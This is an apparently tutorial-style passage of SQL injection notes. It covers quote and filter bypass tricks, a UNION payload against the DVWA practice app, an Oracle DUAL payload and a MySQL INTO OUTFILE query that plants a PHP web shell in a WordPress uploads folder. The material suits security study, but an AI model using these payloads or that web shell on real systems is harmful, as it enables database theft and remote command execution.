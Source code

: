 Sometimes quotation marks get filtered in SQL queries. To bypass that when querying some tablename, maybe we can skip quotation marks by entering tablename directly in HEX values.

More bypassing tips:

```
# Using mingled upper and lowercase

# Using spaces url encoded
+

# Using comments
/**/
/**
--
; --
; /*
; //

# Example of bypassing webpages that only displays one value at a time
1'+uNioN/**/sEleCt/**/table_name,2+fROm+information_schema.tables+where+table_schema?'dvwa'+limit+1,1%23&Submit=Submit#

```


## Extra Bonus: Gaining a reverse shell from SQL injection

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql pannel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

## Extra Bonus: DUAL

The DUAL is a special one row, one column table present by default in all Oracle databases. The owner of DUAL is SYS, but DUAL can be accessed by every user. This is a possible payload for SQLi:

```
'+UNION+SELECT+NULL+FROM+dual--
```

Oracle syntax requires the use of FROM, but some queries don't requires any table. For these case we use DUAL. Also Oracle doesn't allow the queries that employ information_schema.tables.

